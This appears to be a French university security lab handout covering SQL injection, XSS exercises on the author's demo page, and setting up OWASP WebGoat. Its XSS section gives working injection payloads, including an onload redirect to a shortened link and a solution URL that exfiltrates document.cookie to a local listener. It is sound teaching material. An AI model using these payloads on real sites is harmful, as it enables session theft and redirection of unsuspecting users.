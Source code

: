 ```yaml
---
description: Le meilleur moyen de comprendre la sécurisation d’une application / site Internet, c’est de
---
```


# TP Sécurité

Le meilleur moyen de comprendre la sécurisation d’une application / site Internet, c’est de …

- Passer des heures sur de la théorie ?
- Passer des heures sur du code à vous ?
- Passer des heures à tenter des intrusions ?
- La réponse D ?

## Partie 1 : Les injections SQL

Avant d'utiliser WebGoat, nous allons nous focaliser sur la partie Injection SQL, pour ça nous allons utiliser le site [Hack Splaining](https://www.hacksplaining.com/exercises/sql-injection).

Celui-ci contient un bon « tutoriel » interactif permettant de tester et de se former au principe d’injections SQL.

## Partie 2 : Les XSS

Voilà un exemple simple de XSS via un input non filtré.

<Sample src="xss" />

::: danger Quoi faire ?

Ici, l'idée, est de trouver comment éxécuter du code via un simple chargement d'image ! Pour ça il faut connaître un peu le HTML et le fonctionnement des balises classique.

Une balise img, vous connaissez… Elle prend en paramètre un attribut `src`… ok ! Mais elle a également un autre attribut … nommé … `onload` cette attribut permet d'éxécuter du code quand la ressource (l'image) est chargé. Nous allons donc exploiter un code « mal écrit » pour charger du code JavaScript.

Pour ça, dans le champs de saisie, je vous propose de mettre:

```
https://fakeimg.pl/300/" onload="alert('Coucou'); window.location='https://bit.ly/3Bpiela'"
```

Que-ce passe-t-il ? Pourquoi ? Regardons le code source ensemble !

:::

### 2.1 Exploiter la faille

En partant du code précédent, afficher dans la page un formulaire en exploitant la faille `onload` du code fourni.

### 2.1 La même chose mais par lien…

Vous l'avez peut-être remarqué, dans le code JavaScript il est également possible de spécifier une image. Par exemple il est possible d'écrire un lien :

- [https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/600/](https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/600/)

Ce lien est source **d'un très grand danger**, je vous propose de réfléchir à comment il serait possible d'exploiter « le paramètre uri » afin de lui donner de détourner le comportement du site.

- Trouver un moyer de réaliser la même attaque que le code précédent (point 2.0).
- Envoyer le lien à une autre personne.
- Lire des données sur son ordinateur (nous allons le faire ensemble).

C'est à vous (enfin à nous).

::: details Solution

- [Exemple de solution (injection via lien)](https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/300/%22%20onload=%22alert(%27Coucou%27);%20window.location=%27<https://bit.ly/3Bpiela%27%22>)

- [Exemple de vol de cookie](https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/300/%22%20onload=%22document.body.insertAdjacentHTML(%27beforeend%27,%20`%3Clink%20rel=%27stylesheet%27%20href=%27<http://localhost:8888/?v=${document.cookie}%27%20/%3E>`)%22)

Étudier le code JavaScript et le code HTML généré, pourquoi ça ne fonctionne pas ?

:::

## Partie 2.1 : Les XSS

Pour mieux comprendre l'aspect dangereux d'une XSS nous allons utiliser Hack Splaining, pour ça rendez-vous sur [Hack Splaining](https://www.hacksplaining.com/exercises/xss-stored)

Celui-ci contient un bon « tutoriel » interactif permettant de tester et de se former au principe de XSS.

## Partie 3 : WebGoat

![Superbe Logo](./webgoat.png)

WebGoat est un outil didactique aux dimensions pédagogiques proposé par le groupe OWASP. Il s'agit d'une application WEB J2EE développée en Java et destinée à l'enseignement de manière interactive.

Elle vise à familiariser l'utilisateur aux technologies WEB (E.g: protocole HTTP, Encoding, AJAX), aux mécanismes du protocole HTTP et aux vulnérabilités qui peuvent en découler. Cet enseignement se fait au travers de différentes leçons, chacune abordant un concept particulier, détaillant un problème de sécurité donné avant de soumettre l'utilisateur à une mise en pratique immédiate. Chaque leçon (JSP) présente sur l'application comporte une vulnérabilité que l'utilisateur peut identifier et tenter d'exploiter (E.g: Injection SQL permettant de retrouver de fausses informations comme des numéros de cartes de crédit).

Voilà une liste des éléments que nous allons pouvoir « exploiter » dans WebGoat :

- Flux des contrôles d'accès et authentification
- Flux de gestion de session utilisateur
- Cross-Site Scripting (XSS)
- Injections
- Parameter and Data Tampering
- Buffer Overflows
- Configuration et stockage de données (non sécurisée)
- Sécurité AJAX

Nous n’allons bien évidemment pas tous les faire, l’idée est d’en faire quelques-uns et si vous le souhaitez vous pourrez approfondir le sujet.

![](./webgoat-dom-injection-700x407.png)

## Téléchargement

Deux versions existent :

- Le jar
- Un containeur Docker

Nous allons choisir la version Docker :

## Lancement

```sh
docker run -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 -e TZ=Europe/Amsterdam webgoat/webgoat
```

C’est parti, vous pouvez maintenant aller sur [http://127.0.0.1:8080/WebGoat](http://127.0.0.1:8080/WebGoat)

⚠️ Nous allons utiliser un outil intégrant des failles… Pour éviter tout risque pour votre machine, le mieux est de couper l’accès au réseau de votre ordinateur. ⚠️

## À faire

- AJAX Security
  - LAB: Client Side Filtering
  - LAB: DOM-Based cross-site scripting
  - Dangerous Use of Eval
- Concurrency
  - Thread Safety Problems
  - Shopping Cart Concurrency Flaw
- Injection Flaws
  - Command Injection (si vous souhaitez faire du MITM - Man In The Middle -)
  - Numeric SQL Injection
  - String SQL Injection
- Parameter Tampering
  - Exploit Hidden Fields
